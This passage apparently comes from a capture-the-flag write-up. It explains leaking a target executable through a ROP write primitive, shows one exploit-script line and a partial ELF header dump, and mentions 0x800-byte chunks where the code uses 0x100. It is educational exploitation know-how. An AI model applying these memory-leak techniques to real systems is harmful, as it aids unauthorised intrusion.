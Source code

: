 ## Leak the binary - because Why Not!?

At one point I deduced the start of the executable address space from the leaked RIP, and downloaded the binary piece by piece in 0x800 byte chunks

```python
rop.write(4,exe_base, 0x100)
```
Elf header:
```
\x7fELF\x00\x00\x00\x00\x00\x00\x00\x00\x00\x12\x00\x00\x00\x00\x00\x00\x00=\x00\x00\x00\x00\x00@\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\xd8\x00\x00\x0\x00\x00\x00\x00\x00\x00\x00\x00\x03\x00\x00\x00\x03\x00\x00\x00\x03\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00
``` 

Here's some disassembly. 

![Main](disasm_main.png)
